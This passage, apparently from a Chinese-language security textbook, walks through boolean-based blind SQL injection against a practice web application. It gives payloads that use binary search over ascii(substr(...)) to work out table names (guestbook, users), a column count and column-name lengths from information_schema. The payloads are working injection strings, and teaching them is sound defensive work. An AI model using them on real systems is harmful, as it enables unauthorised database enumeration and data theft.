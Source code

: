 第一条payload返回结果如下：

![image-20230405124739029](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405124739029.png)

第二条payload返回结果：

![image-20230405124842840](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405124842840.png)

第三条payload：

![image-20230405124933173](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405124933173.png)

第四条payload返回结果：

![image-20230405125002271](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405125002271.png)

以上结果说明第一个表是九个字符，第二个表是5个字符。

接下来猜测表名。

```
payload:
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122#
```

猜测第一张表名的第一个字符，显示结果exists，说明第一个字符为小写字母，根据前面的二分法，进行推测。

![image-20230405125335935](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405125335935.png)

得出的结果为g
然后就是猜测第一章表名的第二个字符

```
payload:
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>97#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))<122#
```

![image-20230405125534744](D:\Document\My_book\My_Books\钟全龙著\img\image-20230405125534744.png)

重复上面的步骤能够得出两张表分别为guestbook和users。

#### 猜测users表的字段

```
payload：
1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=8#

1' and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1))=7 #

1' and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 1,1),1))=10 #
```
